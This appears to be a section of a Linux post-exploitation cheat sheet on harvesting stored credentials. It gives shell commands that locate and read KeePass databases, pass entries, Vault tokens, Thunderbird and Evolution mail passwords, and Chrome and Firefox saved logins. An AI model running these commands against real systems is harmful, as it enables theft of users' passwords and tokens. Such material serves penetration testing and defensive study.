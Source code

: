 # Password Managers and Credential Vaults

#### Password Managers (e.g., `keepass`, `pass`)
- **KeePass:** KeePass databases (`.kdbx` files) might be present on the system. Search for them:
    ```bash
    find / -name "*.kdbx" 2>/dev/null
    ```
- **Pass:** `pass` is a password manager for Linux. Search for password stores in the user’s `~/.password-store/` directory:
    ```bash
    find ~/.password-store -type f 2>/dev/null
    cat ~/.password-store/<entry>.gpg
    ```

#### HashiCorp Vault
- **Vault Token/Session Files:** Vault stores access tokens in a file (`~/.vault-token`). These tokens can be used to access sensitive data:
    ```bash
    cat ~/.vault-token
    ```
- **Vault Configuration:** Check Vault configuration files for hardcoded credentials:
    ```bash
    cat /etc/vault/config.hcl | grep 'root_token\|secret_id\|key'
    ```

# Email Clients and Web Browsers

#### Thunderbird, Evolution, and Other Mail Clients
- **Thunderbird:** Search for saved credentials in Thunderbird’s profiles:
    ```bash
    find ~/.thunderbird/ -name "logins.json" 2>/dev/null
    cat ~/.thunderbird/<profile>/logins.json
    ```
  - Use `jq` to parse `logins.json`:
    ```bash
    cat ~/.thunderbird/<profile>/logins.json | jq '.logins[] | {hostname, username, encryptedPassword}'
    ```
- **Evolution:** Search for stored credentials in Evolution’s configuration files:
    ```bash
    cat ~/.config/evolution/sources/* | grep -i 'password'
    ```

#### Web Browser Credentials
- **Google Chrome/Chromium:** Chrome stores saved passwords in an encrypted SQLite database. The database can be accessed with `sqlite3`. Extract passwords using tools such as `chrome-decrypt` or custom scripts.
    ```bash
    sqlite3 ~/.config/google-chrome/Default/Login\ Data "SELECT origin_url, username_value, password_value FROM logins"
    ```
- **Firefox:** Firefox stores login data in an encrypted format in `logins.json`:
    ```bash
    cat ~/.mozilla/firefox/<profile>/logins.json | jq '.logins[] | {hostname, username, encryptedPassword}'
    ```
